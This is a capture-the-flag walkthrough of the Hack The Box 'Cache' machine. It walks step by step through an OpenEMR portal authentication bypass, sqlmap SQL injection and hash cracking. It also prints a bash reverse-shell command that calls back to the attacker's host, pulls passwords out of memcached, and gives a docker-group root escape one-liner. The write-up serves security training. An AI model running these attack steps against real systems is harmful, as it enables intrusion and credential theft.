


# Cache

<table>
    <tr>
    <td style="text-align:right;"><b>OS</b></td>
    <td>Linux</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Difficulty</b></td>
    <td>Medium</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Points</b></td>
    <td>30</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Release</b></td>
    <td>09 May 2020</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>IP</b></td>
    <td>10.10.10.188</td>
    </tr>
</table>

## Foothold

To begin, we will add the entry `10.10.10.188 cache.htb` to `/etc/hosts` and then start scanning.

```
# nmap -sC -sV -T4 cache.htb 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-13 15:44 EDT
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From this we see SSH and HTTP are open. An additional port scan on all ports did not show anything new. To begin, we will enumerate the website by browsing to http://cache.htb. 



The landing page describes all sorts of hacking but we are immediately drawn to the login button and page. It presents a very simple login screen and we can try some default credentials. It instantly shows two dialogs that say "Password didn't Match" and "Username didn't Match". Since the response is instant, it suggests that this authentication is done locally. Looking at the page source proves this.

```html
<!-- cache.htb/login.html-->
<form id="loginform" action="net.html", method="POST">
  Username: <input type="username" id="username" placeholder="please enter username..."><br><br>
  Password: <input type="password" id="password" placeholder="please enter password..." required><br><brvalue="FakePSW" id="myInput"><br>
  <input type="submit" class="btn btn-primary" value="Login">
  <button type="button" class="btn btn-primary" onclick="window.location.href='#'" >forget passwd</button>
</form>
```

```javascript
// cache.htb/jquery/functionality.js
function checkCorrectPassword(){
    var Password = $("#password").val();
    if(Password != 'H@v3_fun'){
        alert("Password didn't Match");
        error_correctPassword = true;
    }
}
function checkCorrectUsername(){
    var Username = $("#username").val();
    if(Username != "ash"){
        alert("Username didn't Match");
        error_username = true;
    }
}
```

Now we can log in with the credentials `ash:H@v3_fun`.


There's not much on this page and trying to find directories yields no results. At this point, we have to get more information somewhere else. We'll take a closer look at the home page.

Looking at the author's biography, we can see that along with Cache, he has another project like it called HMS (Hospital Management System). We can try to see if there's more information about this by trying directories, subdomains, and virtual hosts. By adding `hms.htb` to our `/etc/hosts` file, we can see a login page for this project.



We see that the server is also hosting an OpenEMR instance which is very well documented on its [wiki page](https://www.open-emr.org/wiki/index.php/OpenEMR_Wiki_Home_Page). Ash's credentials don't work so we will have to try to find an exploit. We can find the version that is running by browsing to http://hms.htb/admin.php which shows that it is 5.0.1 (3). Knowing this, we can try to find vulnerabilities using `searchsploit`.

```
# searchsploit openemr
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenEMR - 'site' Cross-Site Scripting                                                                            | php/webapps/38328.txt
OpenEMR - Arbitrary '.PHP' File Upload (Metasploit)                                                              | php/remote/24529.rb
OpenEMR 2.8.1 - 'fileroot' Remote File Inclusion                                                                 | php/webapps/1886.txt
OpenEMR 2.8.1 - 'srcdir' Multiple Remote File Inclusions                                                         | php/webapps/2727.txt
OpenEMR 2.8.2 - 'Import_XML.php' Remote File Inclusion                                                           | php/webapps/29556.txt
OpenEMR 2.8.2 - 'Login_Frame.php' Cross-Site Scripting                                                           | php/webapps/29557.txt
OpenEMR 3.2.0 - SQL Injection / Cross-Site Scripting                                                             | php/webapps/15836.txt
OpenEMR 4 - Multiple Vulnerabilities                                                                             | php/webapps/18274.txt
OpenEMR 4.0 - Multiple Cross-Site Scripting Vulnerabilities                                                      | php/webapps/36034.txt
OpenEMR 4.0.0 - Multiple Vulnerabilities                                                                         | php/webapps/17118.txt
OpenEMR 4.1 - '/contrib/acog/print_form.php?formname' Traversal Local File Inclusion                             | php/webapps/36650.txt
OpenEMR 4.1 - '/Interface/fax/fax_dispatch.php?File' 'exec()' Call Arbitrary Shell Command Execution             | php/webapps/36651.txt
OpenEMR 4.1 - '/Interface/patient_file/encounter/load_form.php?formname' Traversal Local File Inclusion          | php/webapps/36649.txt
OpenEMR 4.1 - '/Interface/patient_file/encounter/trend_form.php?formname' Traversal Local File Inclusion         | php/webapps/36648.txt
OpenEMR 4.1 - 'note' HTML Injection                                                                              | php/webapps/38654.txt
OpenEMR 4.1.1 - 'ofc_upload_image.php' Arbitrary File Upload                                                     | php/webapps/24492.php
OpenEMR 4.1.1 Patch 14 - Multiple Vulnerabilities                                                                | php/webapps/28329.txt
OpenEMR 4.1.1 Patch 14 - SQL Injection / Privilege Escalation / Remote Code Execution (Metasploit)               | php/remote/28408.rb
OpenEMR 4.1.2(7) - Multiple SQL Injections                                                                       | php/webapps/35518.txt
OpenEMR 5.0.0 - OS Command Injection / Cross-Site Scripting                                                      | php/webapps/43232.txt
OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions                                                         | linux/webapps/45202.txt
OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution                                                          | php/webapps/45161.py
OpenEMR Electronic Medical Record Software 3.2 - Multiple Vulnerabilities                                        | php/webapps/14011.txt
Openemr-4.1.0 - SQL Injection                                                                                    | php/webapps/17998.txt
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

There is one vulnerability that has our exact version listed for arbitrary file actions (linux/webapps/45202.txt). In the comments of the remote code execution vulnerability, it mentions that it was tested on our exact version (php/webapps/45161.py). The problem with both of these exploits is that they are authenticated and we have no working credentials.

If we do some sleuthing on Google, we find a [vulnerability report](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf) on OpenEMR v5.0.1.3. It mentions an authentication bypass for the patient portal which we have access to at http://hms.htb/portal. With this, we can access two other pages on the server which are vulnerable to SQL injection. This process is summarized nicely in a provided YouTube video for a [simulated attack](https://www.youtube.com/watch?v=DJSQ8Pk_7hc).

We will first bypass the login by going to the portal login page and then navigating to http://hms.htb/portal/add_edit_event_user.php. Since this page loaded, we know the bypass worked. Using Burp, we can get the headers for a simple request in order to pass on to `sqlmap`.

```
// openemr.req
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: OpenEMR=cs0gf0qe0pd9fdm0ddue4f3m60; PHPSESSID=bh3ocs2nv3gq5k13k0ht2tjka2
Upgrade-Insecure-Requests: 1
```

```
# sqlmap -r openemr.req --threads=10 --dbs
...
available databases [2]:
[*] information_schema
[*] openemr
...
# sqlmap -r openemr.req -D openemr --tables
...
[22:01:43] [INFO] retrieved: 'users_secure'
...
# sqlmap -r openemr.req -D openemr -T users_secure --dump
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
...
```

After the SQL injection, we have the hash to the openemr_admin account. With `john` we can crack the hash and get the password.

```
# cat hash 
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
# john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
...
```

With a valid set of credentials, we can use an authenticated exploit in order to leverage remote code execution to get a shell on the box!

We will use 45161.py in order to do this. It mentions that it will overwrite the defaults on the box, which is not good, unless we change the payload. Using Burp, we can grab the proper payload for the PUT request and replace it to create [exploit.py](exploit.py). Now we can setup a simpler `nc` listener and give the exploit a simple bash reverse shell and get access to the box.

```
# python exploit.py -u openemr_admin -p xxxxxx -c "bash -i >& /dev/tcp/10.10.14.130/1234 0>&1" http://hms.htb
...
[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
```
```
# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.130] from (UNKNOWN) [10.10.10.188] 48748
bash: cannot set terminal process group (1851): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$ 
```

## User

Before moving on, we will upgrade our shell to a fully functional and proper TTY so that we can get things like tab completion and history scrolling. The first things we will check on the box is other users.

```
www-data@cache:/var/www/hms.htb/public_html/interface/main$ ls /home
ash  luffy
```

We see there is one user, ash, who we already have credentials for. We can simply `su` to that user and grab the user flag.

```
www-data@cache:/var/www/hms.htb/public_html/interface/main$ su ash
Password: 
ash@cache:/var/www/hms.htb/public_html/interface/main$ cd
ash@cache:~$ cat user.txt 
c1c118**************************
```

## Root

From here, we will do more enumeration in order to escalate to root. To do this, we will use [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) which gives us a ton of information. Some information it gives are processes listening.

```
ash@cache:/dev/shm$ ./linpeas.sh
...
Active Internet connections (servers and established)                                                                                                 
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0    459 10.10.10.188:48748      10.10.14.130:1234       ESTABLISHED -                   
tcp        0      1 10.10.10.188:37182      8.8.4.4:53              SYN_SENT    -                   
tcp        0      0 127.0.0.1:37640         127.0.0.1:11211         TIME_WAIT   -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 10.10.10.188:80         10.10.14.130:59584      ESTABLISHED -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.1:45974         127.0.0.53:53           ESTABLISHED -                   
```

Along with DNS running which is expected because of the virtual host setup, we see that MySQL is listening on port 3306 and another service is listening on port 11211. Looking up that strange port, we see one thing that uses it is `memcached`. This is a huge hint since the box's name is "cache". Using this [blogpost](https://www.hackingarticles.in/penetration-testing-on-memcached-server/) we can see how to extract some information from `memcached`.

```
ash@cache:~$ telnet localhost 11211
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```

Now that we have credentials for luffy, we can `su` to them and do some more enumeration. One of the first things we notice about luffy's account is that they are part of the `docker` group.

```
ash@cache:/tmp$ su luffy
Password: 
luffy@cache:/tmp$ groups
luffy docker
```

On the [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) entry for docker, we see that a user being in the `docker` group can break out of the process and spawn a shell. We will try this.

```
luffy@cache:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
docker: Error response from daemon: Get https://registry-1.docker.io/v2/: dial tcp: lookup registry-1.docker.io: Temporary failure in name resolution.
See 'docker run --help'.
```

Since the box cannot reach out to the docker registry, it cannot download the alpine image it needs. Lucky for us, the system has an ubuntu image on it already which can also be used to get the shell so we can read the root flag.

```
luffy@cache:~$ docker images                                      
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        8 months ago        64.2MB
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
# whoami
root
# cat /root/root.txt
81acec**************************
```
